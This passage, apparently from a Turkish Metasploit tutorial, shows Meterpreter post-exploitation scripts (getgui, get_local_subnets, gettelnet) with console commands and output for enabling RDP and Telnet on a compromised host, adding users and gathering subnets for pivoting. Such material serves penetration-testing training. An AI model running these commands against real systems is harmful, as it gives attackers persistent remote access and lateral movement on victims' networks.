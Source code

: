 

`getgui` scripti, hedef bilgisayarda RDP özelliği kapalıysa açmayı sağlar.


```bash
 meterpreter > run getgui 

**[!]** Meterpreter scripts are deprecated. Try post/windows/manage/enable_rdp.
**[!]** Example: run post/windows/manage/enable_rdp OPTION**=**value **[**...]
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p 
Or:    getgui -e

OPTIONS:

    -e        Enable RDP only.
    -f   Forward RDP Connection.
    -h        Help menu.
    -p   The Password of the user to add.
    -u   The Username of the user to add. meterpreter > run getgui -e > Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
 > Carlos Perez carlos_perez@darkoperator.com
 > Enabling Remote Desktop
 > RDP is already enabled
 > Setting Terminal Services service startup mode
 > Terminal Services service is already set to auto
 > Opening port **in **local firewall **if **necessary
```



## get_local_subnets



`get_local_subnets` scripti, hedef bilgisayarın yerel subnet bilgilerini elde etmeyi sağlar. Bu bilgiler pivoting işlemlerinde kullanılabilir.


```bash
meterpreter > run get_local_subnets 

Local subnet: 10.211.55.0/255.255.255.0
```



## gettelnet



`gettelnet` scripti, hedef bilgisayarda telnet özeliği kapalıysa, açmaya yarar.


```bash
meterpreter > run gettelnet 
Windows Telnet Server Enabler Meterpreter Script
Usage: gettelnet -u  -p 

OPTIONS:

    -e        Enable Telnet Server only.
    -f   Forward Telnet Connection.
    -h        Help menu.
    -p   The Password of the user to add.
    -u   The Username of the user to add.
 
meterpreter > run gettelnet -e

> Windows Telnet Server Enabler Meterpreter Script
```